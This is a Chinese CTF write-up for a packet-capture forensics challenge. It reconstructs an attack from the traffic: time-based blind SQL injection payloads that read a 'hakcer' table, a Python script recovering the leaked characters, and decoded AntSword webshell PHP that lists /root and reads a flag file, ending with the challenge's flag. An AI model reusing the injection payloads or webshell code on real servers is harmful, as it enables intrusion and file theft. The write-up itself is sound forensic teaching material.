






# sqlinject

## 0x00 题面

该题为流量题, [题目链接](D:\ctf\mise\sqlinject\ctf.pcapng)

## 0x01 思路

粗略看一遍数据包, 发现是一题审计 SQL 注入+webshell 流量的题目. 逐一追踪数据流查看:



发现了 sql 注入的 payload, 解码后如下所示:

```
1234' and if(ascii(substr((select group_concat(hakcer) from hacker),1,1))=97,sleep(3),1) and '&p=123
1234' and if(ascii(substr((select group_concat(hakcer) from hacker),1,1))=98,sleep(3),1) and '&p=123
```

显然, 这是一个基于时间的注入, 攻击者从 hack 数据表中读取数据, 注入成功后服务器会延时 3s, 因此我们可以根据时间戳判断攻击者注入的得到的数据:

在上图中, 就是注入成功的例子, 攻击者获取到了 hack 表中字段的第一个字符的 ascii 码为`98`, 即字符`b`

为了能批量寻找注入成功的字符, 我们使用`tshark`提取数据:

```
tshark -r ctf.pcapng -T fields -e frame.time_relative -e urlencoded-form.value | tr -s '\n'  | grep select > res
```

提取出的数据如下:

我们只需要判断当时间戳与下个时间戳间隔大于 3s 时, 这个数据包的 payload 就注入成功了, 然后记录此 payload 中的字符 ascii 码即可, 攻击者注入了两个表, `hakcer`和`hint`, 编写如下脚本提取数据:

```python
with open('res', 'r') as f:
    content = f.readlines()
    hacker = ""
    hint = ""
    # content = content.replace('\x00', '')
    for i in range(len(content) - 1):
        # print(content[i].split(' ')[0])
        payload = content[i].split('\x09')[1]
        if float(content[i+1].split('\x09')[0]) - float(content[i].split('\x09')[0]) >= 3:
            idx1 = payload.find("))=") + 3
            idx2 = payload.find(",sleep")
            if 'hakcer' in payload:
                hacker += chr(int(payload[idx1:idx2]))
            else:
                hint += chr(int(payload[idx1:idx2]))

print(hacker)
print(hint)
```



发现 hacker 表里, 为`backd00r.php`, 怀疑是 webshell, hint 表中只有一部分 flag, 于是在数据包中搜索`backd00r.php`, 发现了如下数据流:

显然, 这是蚁剑马的 webshell 特征, 复制解码后查看如下:

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out)
{
    return $out;
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "feabf8f5a3";
    echo @asenc($output);
    echo "402a78405ac";
}
ob_start();
try {
    $D = base64_decode(substr($_POST["bd6d05dc659984"], 2));
    $F = @opendir($D);
    if ($F == NULL) {
        echo ("ERROR:// Path Not Found Or No Permission!");
    } else {
        $M = NULL;
        $L = NULL;
        while ($N = @readdir($F)) {
            $P = $D . $N;
            $T = @date("Y-m-d H:i:s", @filemtime($P));
            @$E = substr(base_convert(@fileperms($P), 10, 8), -4);
            $R = "	" . $T . "	" . @filesize($P) . "	" . $E . "
    ";
            if (@is_dir($P)) $M .= $N . "/" . $R;
            else $L .= $N . $R;
        }
        echo $M . $L;
        @closedir($F);
    };
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();
//&bd6d05dc659984=kNL3Jvb3Qv
```

发现其功能为先 base64 解码第二位开始的 POST 参数`bd6d05dc659984`: `L3Jvb3Qv`, 解码结果为`/root`, 再执行`readdir`. 最终效果为读取`/root`目录下的文件.

依次审阅数据包, 发现如下信息:

格式化代码之后如下:

```php
@ini_set("display_errors", "0");
@set_time_limit(0);
function asenc($out)
{
    return $out;
};
function asoutput()
{
    $output = ob_get_contents();
    ob_end_clean();
    echo "f359f";
    echo @asenc($output);
    echo "b616dec";
}
ob_start();
try {
    $F = base64_decode(substr($_POST["bd6d05dc659984"], 2));
    $P = @fopen($F, "r");
    echo (@fread($P, filesize($F) ? filesize($F) : 4096));
    @fclose($P);;
} catch (Exception $e) {
    echo "ERROR://" . $e->getMessage();
};
asoutput();
die();//&bd6d05dc659984=ItL2hvbWUvaGFuemhlL0YxYWdnZw==
```

以上代码的作用是读取`/home/hanzhe/F1aggg`文件, 怀疑里面有 flag, 于是将返回包中的数据进行 base64 解码:

```
SlJMVktNQ09OSlJYSVRTVUlGNUU0MkpRR05NWFUzREpKUktFU05DT0dKTVRFVDJFS0UyRlVSQ1dOVkdUR01CNQ==
|
↓base64 decode
JRLVKMCONJRXITSUIF5E42JQGNMXU3DJJRKESNCOGJMTET2EKE2FURCWNVGTGMB5
|
↓base32 decode
LWU0NjctNTAzNi03YzliLTI4N2Y2ODQ4ZDVmM30=
|
↓base64 decode
-e467-5036-7c9b-287f6848d5f3}
```

和通过 sql 注入得到数据进行拼接, 获取到 flag:

```
flag{a3eb0ff8-e467-5036-7c9b-287f6848d5f3}
```
